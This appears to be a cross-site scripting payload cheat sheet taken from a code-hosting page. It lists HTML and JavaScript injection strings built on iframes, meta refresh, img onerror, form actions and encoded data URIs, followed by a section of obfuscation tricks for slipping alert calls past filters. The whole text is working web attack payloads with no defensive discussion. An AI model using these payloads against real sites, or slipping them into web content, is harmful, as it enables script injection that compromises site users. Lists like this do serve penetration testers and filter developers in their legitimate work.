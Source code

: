 - `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`
- `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`
- On Mouse Over​
- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`
- `<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT> `


### Filter Bypass Alert Obfuscation

- `(alert)(1)`
- `a=alert,a(1)`
- `[1].find(alert)`
- `top[“al”+”ert”](1)`
- `top[/al/.source+/ert/.source](1)`
- `al\u0065rt(1)`
- `top[‘al\145rt’](1)`
- `top[‘al\x65rt’](1)`
- `top[8680439..toString(30)](1)`
- `alert?.()`
- &#96;`${alert``}`&#96; (The payload should include leading and trailing backticks.)
- `(alert())`
